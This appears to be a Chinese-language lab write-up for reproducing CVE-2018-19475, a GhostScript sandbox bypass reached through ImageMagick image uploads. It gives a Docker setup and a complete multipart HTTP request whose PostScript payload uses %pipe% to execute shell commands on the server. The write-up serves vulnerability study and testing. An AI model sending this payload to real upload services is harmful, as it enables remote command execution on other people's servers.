

# GhostScript 沙箱绕过（命令执行）漏洞（CVE-2018-19475）

2018年底来自Semmle Security Research Team的Man Yue Mo发表了CVE-2018-16509漏洞的变体CVE-2018-19475，可以通过一个恶意图片绕过GhostScript的沙盒，进而在9.26以前版本的gs中执行任意命令。

参考链接：

- https://blog.semmle.com/ghostscript-CVE-2018-19475/
- https://bugs.ghostscript.com/show_bug.cgi?id=700153

## 漏洞环境

执行如下命令启动漏洞环境（其中包括 GhostScript 9.25、ImageMagick 7.0.8-20）：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将可以看到一个上传组件。

## 漏洞复现

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--

```

命令已成功执行：



当然，真实环境下通常无法直接回显漏洞执行结果，你需要使用带外攻击的方式来检测漏洞。
